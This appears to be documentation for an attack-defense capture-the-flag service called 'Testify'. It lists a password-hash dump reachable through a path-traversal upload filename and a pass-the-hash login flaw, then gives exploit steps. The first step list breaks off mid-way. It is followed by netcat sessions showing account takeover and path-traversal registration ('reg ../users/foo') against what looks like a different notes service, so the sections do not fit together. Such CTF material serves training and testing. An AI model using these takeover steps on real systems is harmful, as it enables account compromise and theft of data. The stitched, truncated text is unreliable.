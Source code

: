 Testify Service documentation
======================

# <ins>Vulnerabilities

The Testify Service consists of two different Vulnerabilities which must be exploited after each other to get access 
to the FLAGSTORE

## VULN #1: User Password Hash Exposure

- Category: Sensitive Data Exposure
- Difficulty: Medium

When registering a new user, a `.sql` dump file of the user database containing the password hashes is created.  
The attacker can retrieve this dump file by using a modified file name when uploading his ID in the appointments section.

## VULN #2: Pass-The-Hash

- Category: Authentication
- Difficulty: Medium

The password is not allowed to contain any special characters other than ASCII. If the user passes a password string,
that does include non-ASCII characters (*e.g. a password hash obtained by VULN#1*) the hashing of the input password string 
is skipped and directly compared to the hash in the user credential databse.



# <ins>Exploits

Two different exploits for VULN#1 and VULN#2 need to be run after each other to obtain a flag.

## VULN #1 :

1. Make an appointment containing a file with arbitrary content but using the filename `../online_users/dump.sql`
2. In the appointments overview section 

## Account Takeover

Connect to the service and use the `user` command to obtain a list of users:

```
gehaxelt@LagTop ~ [130]> nc 192.168.2.112 2323
Welcome to the 1337 testify!
> user
User 0: test
User 1: foo
User 2: 4FOBMO10HWLC
User 3: I4K3P0SK3PST
User 4: B70YKMW72KUR
User 5: GB7QC0DKYXPS
User 6: NXPTITQUSN2M
User 7: 6699DPYPAQDL
User 8: MPG81XWFHNE8
User 9: QN973IXF53HT
User 10: UI2WTY7E7KC5
User 11: XXPLIXZ9ZN1Q
User 12: N43LU1348D19
User 13: 3DP6COPE6GMX
User 14: I8ZUNTWZ0Y0Q
User 15: JUACZ5J3D475
User 16: KGFZNGHROLUS
User 17: FV9VM13K8MGF
User 18: XAHOKR4QD63O
```

Use the username(s) and the `reg` command to set a different password. Next, `log`in as the user, `list` their notes and obtain the flag:

```
> reg XAHOKR4QD63O foo
User successfully registered
> log XAHOKR4QD63O foo
Successfully logged in!
> list 
Note 0: 199480a3640248d5ea679b596d91c350
> get 199480a3640248d5ea679b596d91c350
SKLNAYZAG7QX65RTMW3DCZAKPS9OC0TFH6GH
```

## Arbitrary Read or Write (Account Takeover v2)

Connect to the service and list all users:

```
gehaxelt@LagTop ~/C/A/e/service-example (cleanup)> nc 192.168.2.112 2323
Welcome to the 1337 testify!
> users
User 0: 0WTC89S0Y67Y
User 1: HWG5RBYEQX3Y
User 2: XK2UJAC7KWMB
User 3: CF8TFV304DMO
User 4: E9XAV2ACHRY0
User 5: SHBSC21EC963
User 6: AC1MSHQS7HE8
User 7: OVTN3ZXRO7X0
User 8: IM03X7OWDEV7
User 9: NQST4C3ABWLD
User 10: VS7ZY06LELHI
User 11: WFS6JGH8DDYO
User 12: WBAYX5MLDMIG
User 13: H4YXGNP9D3GS
User 14: S735UCC1O7FE
User 15: foo
```

Use the username(s) and the `reg` command to set a new password by abusing the path traversal bug:

```
gehaxelt@LagTop ~/C/A/e/service-example (cleanup)> nc 192.168.2.112 2323
Welcome to the 1337 testify!
> reg ../users/foo bar
User successfully registered
> log foo bar
Successfully logged in!
> list
Note 0: 581f1b0f439b22d1d2c617d1e8963505
> get 581f1b0f439b22d1d2c617d1e8963505
ENOTESTFLAG
```
